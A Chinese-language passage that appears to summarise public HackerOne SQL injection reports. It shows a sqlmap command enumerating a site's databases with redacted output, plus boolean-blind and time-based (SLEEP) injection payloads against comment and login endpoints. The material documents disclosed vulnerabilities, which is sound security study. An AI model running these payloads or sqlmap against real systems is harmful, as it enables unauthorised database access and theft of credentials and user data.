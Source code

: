    - **攻击目标**：`staff_student` 参数（POST 请求）

   - **请求示例**：

     ```
     POST /olc/███comments/comment_post.php HTTP/1.1
     ...
     staff_student=STUDENT&scn=xxx&comments=xx&Submit=Submit+Comments
     ```

2. **自动化验证（sqlmap）**

   - **命令执行**：

     ```
     sqlmap -u "https://███████" --data="staff_student=STUDENT&scn=xxx..." -p staff_student --dbms=mysql --dbs
     ```

   - **关键结果**：

     ```
     available databases [13]:
     [*] █████████       -- 核心业务数据库（名称脱敏）
     [*] ██████mobile    -- 移动端用户数据
     [*] LEAM            -- 教育培训管理系统
     [*] mysql           -- MySQL 系统表（含账户信息）
     [*] testusers       -- 测试用户凭证库
     ...
     ```

3. **手动验证（布尔盲注示例）**

   - **Payload 构造**：

     ```
     staff_student=STUDENT' AND (SELECT SUBSTR(database(),1,1)='a')-- 
     ```

   - **响应差异**：

     - 若当前数据库首字符为 `a`，页面返回正常内容。

  - 否则返回错误或空数据。

### 9. 登录口 | post | mysql | 时间盲注

[U.S. Dept Of Defense | Report #1627970 - time based SQL injection at [https://███\] [HtUS] | HackerOne](https://hackerone.com/reports/1627970)

1. **时间盲注手动验证**

   - **恶意 Payload**：

     ```
     POST /olc/setlogin.php HTTP/1.1
     ...
     username=█████████'+(SELECT*FROM(SELECT(SLEEP(5)))a)+'&password=██████
     ```
